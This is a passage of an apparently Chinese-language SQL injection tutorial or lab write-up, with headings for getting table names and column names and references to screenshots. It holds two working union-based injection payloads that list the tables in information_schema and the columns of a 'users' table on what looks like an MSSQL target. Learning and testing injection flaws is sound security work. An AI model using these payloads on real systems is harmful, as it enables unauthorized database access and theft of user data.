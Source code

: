 #### 获取表名

```sql
id=-1'union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables) --+
```

![image-20240905150231663](./assets/image-20240905150231663.png)

#### 获取字段名

```sql
id=-1'union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users') --+
```

![image-20240905150521864](./assets/image-20240905150521864.png)

![image-20240905150538788](./assets/image-20240905150538788.png)

![image-20240905150605603](./assets/image-20240905150605603.png)
